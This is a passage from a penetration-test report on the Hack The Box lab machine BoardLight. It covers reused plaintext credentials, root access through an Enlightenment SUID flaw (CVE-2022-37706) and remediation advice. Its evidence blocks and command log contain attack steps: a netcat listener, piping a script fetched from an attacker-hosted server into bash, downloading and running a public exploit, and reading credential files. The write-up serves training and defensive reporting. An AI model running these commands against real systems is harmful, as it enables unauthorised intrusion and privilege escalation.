| **References** | [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [MITRE ATT&CK: T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/) |

**Evidence:**
```php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```
```
ssh larissa@10.129.231.37
Password: serverfun2$2023!!
→ Authentication successful
```

---

### 4. Local Privilege Escalation via Vulnerable Enlightenment SUID Binary — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-269: Improper Privilege Management |
| **CVSS 3.1 Score** | 7.8 (High) — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` *(NVD-assigned score for CVE-2022-37706)* |
| **Description (Incl. Root Cause)** | The host has Enlightenment version 0.23.1 installed, which is affected by CVE-2022-37706. The `enlightenment_sys` binary is installed with the SUID bit set and owned by root, and the underlying system library function fails to properly sanitize pathnames beginning with a `/dev/..` substring. A local, low-privileged user can exploit this path-handling flaw to execute arbitrary commands with root privileges. |
| **Security Impact** | A low-privileged, authenticated user (`larissa`) was able to escalate directly to root using a public proof-of-concept exploit, achieving full administrative control of the host. This was the final step of the attack chain, used to capture `root.txt`. |
| **Affected Host(s)** | `10.129.231.37` — `enlightenment_sys` and related Enlightenment SUID binaries |
| **Remediation** | - Update Enlightenment to version 0.25.4 or later, which corrects the pathname handling flaw<br>- Where Enlightenment/the desktop environment is not needed on a server host, remove it entirely to eliminate the attack surface<br>- Periodically audit installed packages and SUID binaries on server systems, since desktop-environment components are rarely necessary on headless servers<br>- Apply the principle of least privilege — remove the SUID bit from binaries that do not require it |
| **References** | [NVD: CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) · [Public PoC: CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) · [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/) |

**Evidence:**
```
bash exploit.sh
CVE-2022-37706
[+] Vulnerable SUID binary found!
[+] Enjoy the root shell :)
# cat /root/root.txt
81da9f06fa2fcb75456b6e46fe2736d8
```

---

## Remediation Summary

### Short Term

- **Finding #1 (Default Credentials)** – Change the Dolibarr `admin:admin` credential immediately to a strong, unique password.
- **Finding #2 (Dolibarr RCE)** – Upgrade Dolibarr to version 17.0.1 or later immediately; this is a vendor-supplied patch requiring minimal effort.
- **Finding #3 (Plaintext Credentials)** – Rotate the exposed database password immediately and reset `larissa`'s SSH password to a unique value.
- **Finding #4 (Enlightenment Privesc)** – Update Enlightenment to version 0.25.4 or later, or remove it entirely if not needed on this server host.

### Medium Term

- **Finding #3 (Plaintext Credentials)** – Migrate database credentials to environment variables or a secrets manager, and restrict file permissions on `conf.php`.
- **Finding #1 / #2** – Implement account lockout/rate limiting on the Dolibarr login page and restrict the Website module to trusted administrators only.

### Long Term

- Establish a patch and dependency management process for all third-party applications (Dolibarr, plugins, OS packages) to close the exposure window for known CVEs.
- Implement a periodic vulnerability assessment and penetration testing cadence to catch configuration drift such as default credentials or leftover unnecessary packages.
- Adopt an organization-wide credential policy prohibiting reuse between application/database accounts and OS-level accounts.
- Audit server hosts for unnecessary desktop-environment components and other non-essential software that expands the attack surface without business justification.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1:**
Performed subdomain enumeration using virtual host fuzzing to discover a hidden internal application (`crm.board.htb`) not linked from the main site.

**Skill/Technique 2:**
Identified and exploited a known authenticated remote code execution vulnerability in Dolibarr ERP/CRM (CVE-2023-30253) by bypassing a case-sensitive PHP tag filter through the application's Website module.

**Skill/Technique 3:**
Discovered plaintext database credentials in an application configuration file and identified password reuse against a real system account, enabling lateral movement via SSH.

**Skill/Technique 4:**
Performed automated local enumeration with LinPEAS and exploited a known CVE (CVE-2022-37706) in a SUID Enlightenment binary to escalate from a standard user to root.

---

## Appendix

### A. Finding Severity Definitions

| Rating | Definition |
| ------ | ---------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High** | Exploitation causes substantial harm to confidentiality, integrity, or availability. |
| **Medium** | Exploitation has a moderate impact, or a high-impact issue with limited exposure. |
| **Low** | Exploitation causes minimal impact to operations. |
| **Info** | An observation or improvement opportunity; not itself a vulnerability. |

### B. Exploited Hosts

| Host | Method | Notes |
| ---- | ------ | ----- |
| `crm.board.htb` | Default credentials + CVE-2023-30253 | Initial access — RCE as www-data |
| `10.129.231.37:22` | SSH (reused DB credentials) | Lateral movement — user.txt captured |
| `10.129.231.37` (local) | CVE-2022-37706 (Enlightenment SUID) | Privilege escalation — root.txt captured |

### C. Compromised Users / Credentials

| Username | Method | Notes |
| -------- | ------ | ----- |
| `admin` (Dolibarr) | Default credentials | `admin:admin` |
| `www-data` | CVE-2023-30253 RCE | Web server context |
| `larissa` | Plaintext DB credential reuse | Password: `serverfun2$2023!!` |
| `root` | CVE-2022-37706 exploitation | Full host compromise |

### D. Command Reference Log

```
sudo nmap 10.129.231.37 -sC -sV
echo "10.129.231.37 board.htb" | sudo tee -a /etc/hosts
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949
echo "10.129.231.37 crm.board.htb" | sudo tee -a /etc/hosts
nc -lvnp 4455
script /dev/null -c /bin/bash
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
cat /etc/passwd
ssh larissa@10.129.231.37
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 3000
curl http://10.10.14.196:3000/linpeas.sh | bash
enlightenment --version
wget https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/refs/heads/main/exploit.sh
sudo python3 -m http.server 2000
wget http://10.10.14.196:2000/exploit.sh
bash exploit.sh
cat /root/root.txt
```

### E. References

- [NVD: CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)
- [NVD: CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706)
- [Public PoC: CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
- [MITRE ATT&CK: T1078.001 — Valid Accounts: Default Accounts](https://attack.mitre.org/techniques/T1078/001/)
- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK: T1068 — Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [Official Hack The Box BoardLight Machine Page](https://app.hackthebox.com/machines/BoardLight)
